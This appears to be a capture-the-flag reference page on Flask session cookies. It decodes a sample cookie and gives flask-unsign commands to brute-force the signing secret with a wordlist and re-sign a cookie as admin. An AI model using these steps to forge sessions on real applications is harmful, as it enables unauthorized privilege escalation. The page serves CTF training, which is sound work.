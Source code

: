 ```yaml
---
title: "Flask"
description: "Analyze and manipulate Flask session cookies in CTF challenges to modify states or escalate privileges."
date: 2025-10-06
draft: false
categories: ["Web"]
tags: ["flask", "session", "cookie", "ctf", "unsign"]
authors: ["CTF.Support Team"]
summary: "Flask sessions are signed client-side cookies that can be decoded, brute-forced, or re-signed to escalate privileges."
aliases: ["/web/python/flask/"]
slug: "flask"
toc: true
---
```


## Session Cookies

A typical Flask session cookie looks like:

```text
eyJhZG1pbiI6ZmFsc2UsInVpZCI6InQxIn0.Y8MWdQ.2GDhtc5YkYsDn6rbJ5BA3XbZmYw
```

Decoding the first base64 part reveals:

```json
{"admin":false,"uid":"t1"}
```

### flask-unsign

Use flask-unsign to decode, brute-force, or re-sign cookies.

```bash
# Decode
flask-unsign -d -c <cookie>

# Unsign (brute-force secret)
flask-unsign -u -c <cookie> -w rockyou.txt

# Sign a custom cookie
flask-unsign -S <secret> -s -c "{'admin': True, 'uid': 't1'}"
```

## Tips

- Look for `SECRET_KEY` leakage in source code or environment files.
- Re-signing cookies can grant admin access if the key is weak.
